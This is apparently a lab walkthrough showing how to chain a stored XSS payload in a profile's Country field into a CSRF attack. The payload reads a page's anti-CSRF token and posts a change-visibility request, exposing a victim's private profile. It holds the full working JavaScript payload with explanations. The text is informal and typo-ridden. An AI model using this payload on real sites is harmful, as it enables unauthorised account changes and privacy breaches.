 Let us target the Change Visibility request cause a susccessful CSRF Attack targeting Change Visibility can cause the disclousure of a private profile.
Firs star Burp.
You should see the below inside Burp Suite's Proxy;
Lest us focus on the payload we should specify in the Country Field to profile to susccessfully execute a CSRF Attack that will change the victim's visibility settings.
The payload we should specify can be seen below:
```js
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>

```
First we put the entire scipt in <script> tags, so it gets execute as valid JS and will redered as text.

```js
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
```

This script snipped above creates an ObjectVariable called req, which we will we be using to generate a request.var req = new XMLHttpRequest();
is allowing us to get ready to send HTTP request:

`req.onload = handleResponse`

We see the onload event handler, which will perform an action once the page has been loaded. THis action related to the handleResponse funtion that we will define later.

`req.open('get', '/app/change-visibility', true)`

We pass three arguments .get which is the request method, the targeted path [/app/change-visibility] and then true which continuin execution.

`req.send();`

This part will send everyting we constructed in the HTTP request.
```js
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};

```
